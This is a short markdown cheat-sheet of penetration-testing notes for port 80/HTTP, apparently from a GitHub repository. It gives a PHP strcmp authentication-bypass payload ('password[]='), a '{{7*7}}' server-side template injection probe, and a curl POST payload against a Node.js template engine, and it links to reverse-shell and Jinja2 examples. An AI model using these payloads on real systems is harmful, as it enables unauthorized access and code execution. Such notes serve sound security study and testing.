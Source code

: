 # Port 80/tcp
## Stardard usage
 - HTTP protocol
<hr>
#### PHP strcmp Bypass
- #### Description
  - if strcmp used in authentication by php, it is possible to bypass by this tecque.
- #### PoC
  -  Payload: `username=admin&password[]=`
  - Resource: https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016 

#### Server Side Template Injection (SSTI)
- #### Description
  - To use native template syntax to inject a malicious payload into a template, which is then executed server-side.
- #### PoC
  - Resource: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  - Exmaple 1: `Pass {{7*7}} in any input`
  - Example 2 (nodejs): `curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://$targetip/'`
  - Example 3 (reverse shell): https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs
  - Exmaple 4 (Jinja2 python): https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python
